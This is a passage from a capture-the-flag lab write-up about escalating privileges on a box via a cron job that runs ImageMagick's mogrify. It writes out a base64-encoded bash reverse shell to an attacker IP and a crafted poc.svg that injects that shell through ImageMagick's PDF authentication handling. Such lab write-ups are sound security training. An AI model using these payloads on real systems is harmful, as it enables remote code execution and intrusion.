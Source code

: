 ## ImageMagick

Taking a look around on the system and monitoring for running processes there seems to be a cronjob being run by the user thomas who has the uid of 1000.

```php
2022/01/22 17:13:01 CMD: UID=0    PID=1441   | /usr/sbin/CRON -f
2022/01/22 17:13:01 CMD: UID=1000 PID=1442   | /bin/bash /usr/local/bin/convert_images.sh
2022/01/22 17:13:01 CMD: UID=1000 PID=1444   | pkill mogrify
```

Checking the script it cd's into the directory `/var/www/dev01.artcorp.htb/convert_images` and then calls `/usr/local/bin/mogrify` on all files machting `*.*` with an output format of png.

`/usr/local/bin/convert_images.sh`
```php
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

Taking a closer look at the mogrify it is actually a symlink to `magick` which is part of ImageMagick.

```php
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -la /usr/local/bin/mogrify
lrwxrwxrwx 1 root root 6 Aug 29 15:59 /usr/local/bin/mogrify -> magick
```

To check for possible CVE's in ImageMagick we need the version number first.

```php
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Looking the version up on google we are able to find a [PoC](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) which should work with the installed version of ImageMagick. The PoC abuses the the authentication mechanism for password protected PDF's to pass additional shell commands. To abuse this we first we generate a base64 encoded  reverse shell payload.

```php
$ echo -n 'bash -c "bash -i >&/dev/tcp/10.10.14.73/7575 0>&1"' | base64
YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjczLzc1NzUgMD4mMSI=
```

We then take the `poc.svg` from the blogpost and exchange the payload with our reverse shell.

`poc.svg`
```php
<image authenticate='ff" `echo -n YmFzaCAtYyAiYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjczLzc1NzUgMD4mMSI= | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
